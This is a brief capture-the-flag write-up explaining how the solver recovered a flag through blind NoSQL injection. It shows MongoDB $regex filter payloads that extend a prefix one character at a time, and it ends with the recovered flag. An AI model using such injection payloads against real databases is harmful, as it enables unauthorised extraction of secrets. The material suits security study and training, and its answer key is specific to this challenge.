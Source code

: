 ### Sol  

Not sure what other method but I use blind-NoSQL  

`flag: {$regex: "^flag{"}` is success so add one by one character  

`flag: {$regex: "^flag{4"}`  
`flag: {$regex: "^flag{4c"}`  
...
`flag: {$regex: "^flag{4cb8649d9ecb0ec59d1784263602e686}"}`  

Flag:`flag{4cb8649d9ecb0ec59d1784263602e686}`

Solved by: zeqzoq